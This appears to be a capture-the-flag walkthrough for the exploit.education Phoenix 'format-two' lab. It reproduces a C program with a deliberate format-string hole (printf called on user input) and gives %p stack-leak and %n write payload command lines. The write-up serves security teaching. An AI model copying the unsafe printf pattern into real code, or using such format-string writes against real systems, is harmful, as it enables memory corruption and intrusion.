




# Format Two

```c
/*
 * phoenix/format-two, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * What kind of flower should never be put in a vase?
 * A cauliflower.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

## Walkthrough

1. When a raw string is passed to `printf()` you can use the format specifier `%p` to see the address of the corresponding value, If no value is provided, it starts reading off of the stack. [man printf](https://man7.org/linux/man-pages/man3/printf.3.html)
    - `/opt/phoenix/amd64/format-two "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"` to read many addresses.
    - 
    - The output tells us that the string we are provide is the 12th argument to the `printf()`
2. We can use another format specifier (`%n`) to write to a given argument in `printf()`. It writes the number of bytes printed to the specified address. So by providing an address as our string and a `%n` on the 12th argument we can write some value to that address. To find the address to write to: 
    - `objdump -t /opt/phoenix/amd64/format-two`
    - 
3. Unfortunately the following: ``/opt/phoenix/amd64/format-two `python -c "print('\xf0\x0a\x60%p%p%p%p%p%p%p%p%p%p%p%n')"`` doesn't work because `\x0a` is `\n` and only the first character is read and the rest is ignored. We will instead need to do this problem in 32 bit architecture.
4. `objdump -t /opt/phoenix/amd64/format-two`
    - 
5. ``/opt/phoenix/i486/format-two `python -c "print(b'\x68\x98\x04\x08' + b'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%n')"` ``
    - 
    